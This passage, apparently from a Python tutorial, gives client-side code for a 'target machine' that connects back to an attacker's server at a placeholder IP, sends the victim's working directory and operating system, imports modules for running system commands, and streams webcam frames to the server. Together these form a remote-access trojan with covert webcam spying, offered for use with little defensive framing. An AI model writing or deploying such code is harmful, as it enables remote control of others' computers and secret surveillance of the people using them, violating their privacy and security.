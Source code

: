 Move to your target machine (client-side), open up a new Python file, and name it client.py and follow along.

On the client side, the only module we need to install is Opencv-Python (which we already installed on the server side):

$ pip install opencv-python

Afterwards, include the following code in your clients.py:

import socket # For network (client-server) communication.
import os # For handling os executions.
import subprocess # For executing system commands.
import cv2 # For recording the video.
import threading # For recording the video in a different thread.
import platform # We use this to get the os of the target (client).

SERVER_HOST = "<Enter your server's IP Address here>"
SERVER_PORT = 4000
BUFFER_SIZE = 1024 * 128  # 128KB max size of messages, you can adjust this.
# Separator string for sending 2 messages at a time.
SEPARATOR = "<sep>"
# Create the socket object.
s = socket.socket()
# Connect to the server.
s.connect((SERVER_HOST, SERVER_PORT))
# Get the current directory and os and send it to the server.
cwd = os.getcwd()
targets_os = platform.system()
s.send(cwd.encode())
s.send(targets_os.encode())

This client-side code sets up a socket connection to the server, sends the client's current working directory and operating system to the server, and enters a command handling loop.

Lastly, we create a function to handle the video recording on the target system.

# Function to record and send the video.
def record_video():
    global cap
    cap = cv2.VideoCapture(0)
    while True:
        ret, frame = cap.read()
        if not ret:
            break
        _, frame_bytes = cv2.imencode('.jpg', frame)
        frame_size = len(frame_bytes)
        s.sendall(frame_size.to_bytes(4, byteorder='little'))
        s.sendall(frame_bytes)
    cap.release()
    cv2.destroyAllWindows()
